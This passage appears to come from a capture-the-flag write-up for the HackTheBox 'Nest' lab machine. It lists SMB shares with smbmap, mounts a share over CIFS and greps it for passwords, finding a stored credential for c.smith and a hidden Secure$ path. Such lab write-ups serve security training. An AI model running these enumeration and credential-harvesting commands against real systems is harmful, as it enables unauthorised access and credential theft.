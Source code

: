 Again, we can enumerate the shares, but this time, with TempUser's permissions.

`smbmap -u 'TempUser' -p 'welcome2019' -H 10.10.10.178 -R`

After looking through the results, it seems like there's more to look through this time, especially in the Data share.

Let's mount the share, so that we can grep through its contents. (CIFS is a dialect of SMB so that's the file system type used for mounting SMB.)

```
root@kali:/mnt# mount -t cifs -o username=TempUser //10.10.10.178/Data /mnt/Data
Password for TempUser@//10.10.10.178/Data:  ***********
```

After mounting the drive, we can grep for credentials.

```
root@kali:/mnt/Data# grep -Eir 'password|passwd'
IT/Configs/RU Scanner/RU_config.xml:  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
Shared/Templates/HR/Welcome Email.txt:Password: welcome2019
```

There's a credential in **RU_cofig.xml**. Let's look at the file.

```
root@kali:/mnt/Data/IT/Configs# cat 'RU Scanner'/RU_config.xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

It is a XML config file for something called RU Scanner. The password is for a user **c.smith**.

We can find out more about c.smith with some simple grepping.

```
root@kali:/mnt/Data# grep -ir 'c.smith'
IT/Configs/NotepadPlusPlus/config.xml:        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
IT/Configs/RU Scanner/RU_config.xml:  <Username>c.smith</Username>
```

The config.xml for Notepad++ shows us a path to his todo list.

Let's open the file to take a closer look. 

```
root@kali:/mnt/Data/IT/Configs# cat NotepadPlusPlus/config.xml
<SNIP>
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts" />
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
    <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
</SNIP>
```
The file history offers useful information. In particular, it offers us visibility into the `Secure$` share. We now know that there is a `\IT\Carl` path within it.
